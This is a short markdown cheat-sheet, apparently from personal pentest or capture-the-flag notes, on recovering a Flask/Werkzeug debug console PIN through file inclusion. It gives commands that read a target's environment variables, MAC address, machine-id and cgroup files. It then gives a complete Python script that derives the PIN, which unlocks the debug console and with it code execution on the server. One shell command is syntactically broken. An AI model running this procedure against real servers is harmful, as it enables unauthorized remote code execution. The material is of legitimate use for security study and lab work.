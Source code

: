 ```yaml
---
title: "Retrieve Flask Debug Pin"
date: 2024-7-12
tags: ["python", "flask", "werkzeug", "debug", "LFI"]
---
```


### Retrieve Flask Debug Pin

#### 1. Get user

```console
cat /proc/self/environ | grep -aE ('USER'|'LOGNAME')
```

#### 2. Get full path of the application

```console
+------------------------------+
| Get from Traceback debug log |
+------------------------------+
```

#### 3. Get MAC address

```console
cat /sys/class/net/eth0/address
```

```console
# Convert to int
python3 -c "print(int('<MAC_ADDRESS>'.replace(':',''), 16))"
```

#### 4. Create Machine ID String

```console
echo $(cat /etc/machine-id)$(head -n 1 /proc/self/cgroup | rev | cut -d '/' -f1 | rev)
```

#### 5. Update public and private bits in Hacktrick's Script

```python
#!/usr/bin/env python3

import hashlib
from itertools import chain

probably_public_bits = [
    'user',       # username
    'flask.app',  # modname (should be flask.app)
    'Flask',      # Flask / wsgi_app / DebuggedApplication
    '/app/venv/lib/python3.10/site-packages/flask/app.py'  # full path of the app
]

private_bits = [
    '279275995014060',                  # Mac address
    'd4e6cb65d59544f3331ea0425dc555a1'  # machine_id string
]

h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
